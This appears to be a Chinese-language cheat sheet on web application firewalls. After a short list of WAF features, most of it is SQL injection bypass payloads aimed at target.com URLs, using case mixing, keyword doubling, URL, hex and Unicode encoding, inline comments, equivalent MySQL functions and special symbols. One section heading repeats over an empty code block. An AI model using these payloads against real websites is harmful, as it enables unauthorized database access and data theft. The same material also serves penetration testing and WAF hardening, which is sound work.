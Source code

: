 #### WAF是如何工作的
- 协议异常检测：拒绝不符合HTTP标准的请求
- 增强的输入验证：代理和服务器端验证，而不仅仅是客户端验证

#### 白名单和黑名单
- 基于规则和基于异常的保护：基于规则的更依赖黑名单机制，基于异常则更灵活
- 状态管理：关注会话保护还有：Cookie保护，反入侵规避技术，响应监控和信息披露保护

#### 如何绕过WAF
- 大小写
```
http://target.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4
```

- 关键字替换
```
http://target.com/index.php?page_id=-15&nbsp;UNIunionON SELselectECT 1,2,3,4
```

- 编码
+ URL encode
```
page.php?id=1%252f%252a*/UNION%252f%252a /SELECT
```
+ Hex encode
```
```
+ Hex encode
```
target.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4…
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))
```
+ Unicode encode
```
?id=10%D6‘%20AND%201=2%23SELECT 'Ä'='A'; #1
```

- 使用注释
```
index.php?page_id=-15 %55nION/**/%53ElecT 1,2,3,4　　　
 
　　　'union%a0select pass from users#

index.php?page_id=-15 /*!UNION*/ /*!SELECT*/ 1,2,3
 
　　　?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,3,4…
```

- 等价函数
```
hex()、bin() ==> ascii()
sleep() ==>benchmark() 
concat_ws()==>group_concat()
substr((select 'password'),1,1) = 0x70
　strcmp(left('password',1), 0x69) = 1
　strcmp(left('password',1), 0x70) = 0
　strcmp(left('password',1), 0x71) = -1
mid()、substr() ==> substring()
@@user ==> user()
@@datadir ==> datadir()
```

- 使用特殊符号
```
+ ` symbol: select `version()`;
+ +- :select+id-1+1.from users;
+ @:select@^1.from users;
+Mysql function() as xxx
+`、~、!、@、%、()、[]、.、-、+ 、|、%00
```
- HTTP参数控制
- 缓冲区溢出
- 整合绕过
